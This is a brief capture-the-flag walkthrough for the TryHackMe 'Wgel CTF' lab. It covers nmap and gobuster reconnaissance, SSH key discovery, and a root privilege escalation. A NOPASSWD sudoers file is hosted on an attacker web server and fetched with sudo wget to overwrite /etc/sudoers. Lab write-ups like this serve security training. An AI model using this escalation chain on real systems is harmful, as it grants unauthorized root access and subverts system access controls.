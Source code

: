 ```yaml
---

title: Walkthrough - Wgel CTF	
published: true
---
```


Exfiltrate the root flag

[https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

* * *

## Discovery

- nmap -F -A -T4 10.10.247.33 -vvv
- gobuster dir -u http://10.10.247.33/sitemap -w /usr/share/wordlists/dirb/common.txt -x txt,php,html,cgi --no-error -t 100 
- we find a username to use with the id_rsa in the source code of the apache welcome page

* * *

## User flag

- ``cat user_flag.txt``

* * * 

## Root flag

create sudoers file on attacker

```shell
#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL
```

- ``python3 -m http.server 80``

- on target machine travel to /etc and wget sudoers file
- ``sudo su``
- ``cat /root/root_flag.txt``

* * * 